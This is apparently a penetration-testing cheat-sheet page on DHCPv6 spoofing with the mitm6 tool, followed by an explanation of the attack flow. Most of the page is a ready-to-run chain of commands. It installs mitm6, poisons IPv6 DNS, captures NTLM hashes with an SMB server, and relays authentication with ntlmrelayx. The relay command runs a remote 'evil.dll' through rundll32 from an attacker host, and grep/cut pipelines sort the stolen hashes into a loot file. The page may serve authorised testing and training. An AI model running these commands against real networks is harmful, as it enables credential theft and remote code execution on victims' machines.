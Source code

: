 ```yaml
---
description: Dynamic Host Configuration Protocol version 6
---
```


# DHCPv6 Spoofing

- [https://g-laurent.blogspot.com/2021/12/responder-and-ipv6-attacks.html](https://g-laurent.blogspot.com/2021/12/responder-and-ipv6-attacks.html)




## mitm6

* [https://github.com/fox-it/mitm6](https://github.com/fox-it/mitm6)
* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [https://intrinium.com/mitm6-pen-testing/](https://intrinium.com/mitm6-pen-testing/)

Install:

```
$ git clone https://github.com/fox-it/mitm6 ~/tools/mitm6 && cd ~/tools/mitm6
$ python3 setup.py install
Or
$ pipx install -f "git+https://github.com/fox-it/mitm6.git"
```

Generate a list of targets for NTLM relay and prepare a C2 listener and stager:

```
$ cme smb 192.168.1.0/24 --gen-relay-list relay.txt
```

Start SMB server to capture NTLM hashes and serve the stager:

```
$ smbserver.py -smb2support share `pwd` | tee -a ~/ws/log/mitm6-smbserver.out
```

Get ready to relay authentication and try executing a command:

```
$ ntlmrelayx.py -6 -tf relay.txt -wh attacker-wpad -c 'cmd /c C:\Windows\System32\rundll32.exe \\10.10.13.37\share\evil.dll, SVywATCKorN' --no-smb-server --no-wcf-server --no-raw-server
```

Start MitMing:

```
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```

Parse, sort and save NTLM hashes:

```
# Users
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | cut -c 5- | grep -v '\$' > net-ntlmv2.mitm6
$ sort -u -t: -k1,1 net-ntlmv2.mitm6 ~/ws/loot/net-ntlmv2.txt > t
$ mv t ~/ws/loot/net-ntlmv2.txt && rm net-ntlmv2.mitm6

# Machines
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | grep '\$' | cut -c 5- | sort -u -t: -k1,1
```



### Attack vectors

Grab hashes with `smbserver.py` (passive):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server and responds with the attacker's IP for all incoming queries.
4. `smbserver.py` collects hashes during SMB requests from victims.

Relay authentication with ntlmrelayx.py (active):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server, `ntlmrelayx.py` serves a malicious WPAD file with an inexistent hostname (which will be resolved to the attacker's IP anyway) and acts like a rogue proxy server and `mitm6.py` responds with the attacker's IP for all the incoming DNS queries.
4. Victims grab the WPAD file and ask the rogue IPv6 DNS server (attacker's machine) to resolve its location - resolved to attacker's machine.
5. Victims go to the rogue proxy server and there `ntlmrelayx.py` responses with `HTTP 407 Proxy Authentication`.
